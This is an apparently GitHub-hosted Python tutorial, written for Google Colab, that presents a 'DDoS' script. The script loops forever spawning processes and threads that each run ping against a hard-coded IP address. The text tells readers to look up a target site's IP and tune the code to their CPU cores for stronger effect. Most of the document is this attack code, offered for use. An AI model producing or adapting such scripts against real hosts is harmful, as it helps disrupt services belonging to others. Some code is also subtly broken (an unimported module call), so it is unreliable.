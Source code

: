 # Denial-of-service attack (DDoS) with Threading and Multiprocessing

**I performed these operations through Google Colab Pro.**

**What is Threading and Multiprocessing?:**
    
Threading means making breakfast while brewing tea. Multiprocessing is just like someone else preparing the table while you are preparing breakfast.

When using threading, a single operation executes two jobs from different branches simultaneously. In Multiprocessing, there are two separate processes.

**Importing the modules for threading and multiprocessing in Python, and installing the necessary packages for the ping command to run in Linux.**

```python
from multiprocessing import Process
import threading
import os

!apt-get update
!apt-get install iputils-ping
```

**Main idea**

Our main idea is to transfer the code to two independent threads asynchronously in an endless loop, and these two threads will perform two more operations asynchronously. As a result, 2 X 2 = 4 operations will be performed in each loop, ie ping the target server 4 times in each loop. Then let's code :).

**Domain, to learn the IP address of the site address**

Click on the link below and proceed to the site, then paste the link of the target site here and click query, we will use the address that comes out is our destination address. Link : http://www.ipsorgu.com/site_ip_adresi_sorgulama.php

```python
def proca():
    
    # Destination server address. Paste the destination address here.
    os.system("ping 172.82.234.64")

def procb():
    
    # Destination server address. Paste the destination address here.
    os.system("ping 172.82.234.64")

def one():
    
    # Two different operations from 2 different functions will be done in this thread.
    a = threading.Thread(target=proca)
    a.start()

    b = threading.Thread(target=procb)
    b.start()

def two():
    
    # Two different operations from 2 different functions will be done in this thread.
    a = threading.Thread(target=proca)
    a.start()

    b = threading.Thread(target=procb)
    b.start()

# Infinite ping :)
while True:
    
    # The one function starts running on another thread.
    p = Process(target=one)
    p.start() 
    # The one function is executed, but the code continues to be received from the next line.
    
    # second function, second thread
    q = Process(target=two)
    q.start()
```

**Organize the above code according to your own CPU cores. I guess you can get better results with CPUs with high multi-core performance. You can find out the total number of threads in the CPU with the code block below.**

```python
print("Total number of threads : ", multiprocessing.cpu_count())
```

